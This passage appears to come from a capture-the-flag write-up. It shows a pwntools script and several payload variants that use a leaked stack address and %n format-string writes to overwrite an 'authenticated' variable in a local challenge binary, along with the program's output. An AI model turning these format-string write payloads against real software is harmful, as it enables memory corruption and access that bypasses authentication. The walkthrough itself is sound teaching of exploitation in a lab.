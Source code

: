 Let's try it out using the following script (Note the payload format to target the address of the `authenticated` value) :

```py
#! /usr/bin/python3

from pwn import *

HOST = ''
PORT = ''

p = process('./chall')
address = p.recv().split()[5]
print(str(address)[2:-1])
addressBytesInStack = p32(int(str(address)[2:-1], 16))

p.sendline(b'AA' + addressBytesInStack + b'%7$hn')

p.interactive()
```

And of course, we can try varianes of payload :

```py
p.sendline(b'A ' + addressBytesInStack + b'%7$n')
```


```
[+] Starting local process './chall': pid 89759
0xff8bbbac
[*] Switching to interactive mode
[*] Process './chall' stopped with exit code 0 (pid 89759)
Hi, A \xac\xbb\x8b\xff
[authenticated] = 6
Nope! You won't be getting any flags
[*] Got EOF while reading in interactive
```

```py
p.sendline(b'A ' + addressBytesInStack + b'%p %p %p %p %p %p %p %p %p %p %p %p %7$n')
```

```
[+] Starting local process './chall': pid 90097
0xff9af82c
[*] Switching to interactive mode
[*] Process './chall' stopped with exit code 0 (pid 90097)
Hi, A ,\xf8\x9a\xff0x32 0xf7e1d620 0x5660e239 0xf7fdfff4 0x2c 0x20410000 0xff9af82c 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 
[authenticated] = 126
Nope! You won't be getting any flags
```

```py
p.sendline(b'A ' + addressBytesInStack + b'%p %p %p %p %p %p %p %p %p %p %7$n')
```
